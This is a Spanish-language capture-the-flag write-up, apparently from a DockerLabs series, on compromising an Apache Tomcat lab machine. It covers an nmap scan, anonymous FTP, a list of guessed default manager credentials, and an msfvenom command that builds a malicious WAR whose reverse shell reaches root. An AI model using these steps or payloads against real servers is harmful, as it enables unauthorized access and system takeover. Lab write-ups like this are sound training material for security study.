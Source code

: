 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/89ee97d0-43fe-40e3-91d9-6c4f7e67b31c)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **21/tcp(FTP):** vsftpd 3.0.5
2.  **8080/tcp(HTTP):** Apache Tomcat 9.0.88
### Puerto 8080
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a la página por defecto de Apache tomcat.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ac269a6b-ad8f-4163-b0a9-662de4a28967)

### Fase 2- Exploración

### FTP
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2ba5140a-ced8-464a-a05c-57ef191efdff)

Nos conectamos por FTP con el usuario anonymous a la maquina y encontramos un tomcat.txt que contiene lo siguiente:
`Hello tomcat, can you configure the tomcat server? I lost the password...`
Es posible que **tomcat** sea el usuario que necesitaremos en el servicio que corre por el puerto **8080**.

### Manager Webapp
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/919f5358-2c84-493f-9da8-5bbc9d37540e)

Al hacer click en "**manager webapp**" nos aparece un panel de login en el navegador para poder acceder.

# Fase 3- Explotación
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/bbcee539-da93-4d49-b489-8d35fc93d91f)

Probamos contraseñas por defecto para **tomcat**:
```python
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```
Las credenciales **tomcat:s3cr3t** nos dan resultado

### Manager PWNED
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/cdafd31e-2ed2-4e81-aba2-69c339022128)

Logramos acceder al panel de administración de **tomcat**. Ahora tenemos que conseguir acceso a la máquina, y lo podemos hacer mediante un paquete "**.war**" malicioso. Que nos devolverá una **Reverse shell**.

Lo crearemos fácilmente con **msfvenom**:
```python
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o RevShell.war
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3646bfc7-1251-4220-b3a5-3eb4137f1134)

En el panel de administración, vamos al apartado **WAR file to deploy**, seleccionamos nuestra **RevShell.war** y la subimos..

### Reverse shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b7d2b320-3cfb-48a4-9b4f-b258b6561a6c)

Ejecutamos el archivo **.war** 

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a0090864-c0df-4947-a1ca-0e5b5621d760)

Y nos llego la reverse shell y tenemos privilegios máximos!
